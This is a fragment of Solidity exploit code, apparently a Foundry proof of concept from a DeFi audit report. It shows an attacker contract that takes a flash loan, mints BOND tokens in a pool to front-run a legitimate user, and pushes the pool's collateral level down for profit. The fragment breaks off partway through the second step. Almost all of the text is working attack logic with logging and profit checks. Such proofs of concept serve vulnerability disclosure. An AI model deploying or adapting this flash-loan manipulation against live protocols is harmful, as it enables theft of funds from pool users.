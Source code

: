 ```solidity
    
    bytes memory data = abi.encode(address(manipulatedPool));

    flashloanProvider.flashloan(
        address(this),
        address(reserveToken),
        attackerLoan,
        data
    );

    uint256 finalBal = reserveToken.balanceOf(address(this));
    require(finalBal > 0, "No profit after repaying the loan!");
}
 
function executeOperation(
    address asset,
    uint256 amount,
    uint256 premium,
    address initiator,
    bytes calldata data
) external returns (bool) 
{
    (address poolAddr) = abi.decode(data, (address));
    Pool localManipulatedPool = Pool(poolAddr);
    Token(asset).approve(poolAddr, amount);

        // We calculate collateral level before and every time we interact with the pool
        uint256 clBeforeCreationOfUsersLeverageAndAttackerBond = calculateCollateralLevel(
            localManipulatedPool,
            Token(asset),
            3000 * CHAINLINK_DECIMAL_PRECISION, 
            CHAINLINK_DECIMAL,
            100
        );
        console.log("Collateral level before creating BOND and Leverage:", clBeforeCreationOfUsersLeverageAndAttackerBond);
        // ----------------------------------------

        // STEP 1: => create(Bond) for attacker , frontrunning the legitimate user
        // ----------------------------------------
        uint256 mintedBond = localManipulatedPool.create(Pool.TokenType.BOND, amount, 0);
        console.log("Minted BOND:", mintedBond);
        uint256 loanPrincipal = amount;
        uint256 loanPremium   = premium;
        console.log("loanPrincipal:", loanPrincipal);
        console.log("loanPremium:", loanPremium);

        uint256 clAfterCreationOfBond = calculateCollateralLevel(
            localManipulatedPool,
            Token(asset),
            3000 * CHAINLINK_DECIMAL_PRECISION, 
            CHAINLINK_DECIMAL,
            100
        );
        console.log("Collateral level after creating BOND:", clAfterCreationOfBond);
        require(clAfterCreationOfBond <= 1200000, "Collateral level too high!");
        
        // STEP 2: => create(LEVERAGE) for randomuser
        // We'll mint 10 ether value LEVERAGE for the random user
        // ----------------------------------------
        
        vm.startPrank(randomUser);
    
```